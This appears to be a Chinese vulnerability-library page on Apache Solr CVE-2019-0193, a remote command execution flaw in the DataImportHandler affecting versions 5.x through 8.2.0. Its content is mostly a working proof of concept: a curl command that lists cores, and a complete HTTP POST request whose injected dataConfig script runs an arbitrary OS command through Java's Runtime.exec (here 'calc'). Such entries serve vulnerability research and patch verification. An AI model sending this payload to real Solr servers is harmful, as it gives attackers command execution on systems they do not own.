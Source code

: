 ```yaml
---
title: 'Apache Solr远程命令执行 CVE-2019-0193'
date: Sat, 29 Aug 2020 11:09:52 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


影响版本 apache solr 5.x-8.2.0,存在config API版本 获取所有 core 信息：curl [http://IP/solr/admin/cores](http://IP/solr/admin/cores) HTTP协议头：POST /solr//dataimport

POC

```
POST /solr/<your_core_name>/dataimport HTTP/1.1
Host: 127.0.0.1:8983
Content-Length: 763
User-Agent: Mozilla/5.0
Content-type: application/x-www-form-urlencoded
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=<your_core_name>&name=dataimport&dataConfig=
<dataConfig>
<dataSource type="URLDataSource"></dataSource>
<script><![CDATA[
function poc(row){
var process= java.lang.Runtime.getRuntime();
process.exec("calc");
return row;
}
]]></script>
<document>
<entity name="stackoverflow"
url="https://stackoverflow.com/feeds/tag/solr"
processor="XPathEntityProcessor"
forEach="/feed"
transformer="script:poc" ></entity>
</document>
</dataConfig>
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/08/123.png)